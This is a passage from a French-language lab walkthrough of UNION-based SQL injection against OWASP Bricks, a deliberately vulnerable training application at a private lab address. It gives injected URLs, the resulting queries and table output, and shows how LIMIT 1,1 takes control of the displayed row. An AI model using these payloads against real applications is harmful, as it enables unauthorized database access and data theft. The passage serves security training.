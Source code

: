 Maintenant que l'on connait le nombre de colonnes de la requête SQL, on peut insérer une requête avec `UNION` pour extraire des données de la base.

Comme la réponse contient 8 colonnes, on insère un union avec 8 `NULL`. On ajoute également le fameux __`;-- `__ pour commenter la fin de la requête.

L'URL : `http://192.168.56.101/owaspbricks/content-1/index.php?id=1+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL;-- `.

Ce qui donne la requête :
```
SELECT * FROM users WHERE idusers=1 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL;--  LIMIT 1;
```

```
+---------+------+-------------------+----------+---------------+--
| idusers | name | email             | password | ua            | r
+---------+------+-------------------+----------+---------------+--
|       1 | tom  | tom@getmantra.com | tom      | Block_Browser |  
|    NULL | NULL | NULL              | NULL     | NULL          | N
+---------+------+-------------------+----------+---------------+--
```

L'application n'affiche malgré tout que la première ligne. Nos `NULL` ne sont donc pas affichés.\
 Néanmoins, l'absence de message d'erreur nous permet de déduire que nous avons bien le bon nombre de colonnes.

![La réponse ne change pas avec une simple injection UNION SELECT NULL,...](images/select_union.png)

## Utilisation de LIMIT 1,1

L'application n'affichant que la 1ère ligne. On peut utiliser l'opérateur `LIMIT 1,1` après notre `UNION SELECT NULL,NULL,NULL,...` pour que l'application affiche notre requête.

L'URL `http://192.168.56.101/owaspbricks/content-1/index.php?id=1+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+LIMIT+1,1;--`

Correspond à la requête:
```
SQL Query: SELECT * FROM users WHERE idusers=1 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL LIMIT 1,1;-- LIMIT 1
```

```
+---------+------+-------+----------+------+------+------+------+
| idusers | name | email | password | ua   | ref  | host | lang |
+---------+------+-------+----------+------+------+------+------+
|    NULL | NULL | NULL  | NULL     | NULL | NULL | NULL | NULL |
+---------+------+-------+----------+------+------+------+------+
```

L'application n'affiche plus les "User ID: 1" et autres données de la requête initiale (avant le `UNION`). On a donc bien pris le contrôle de ce qui est affiché avec l'opérateur `LIMIT 1,1`.
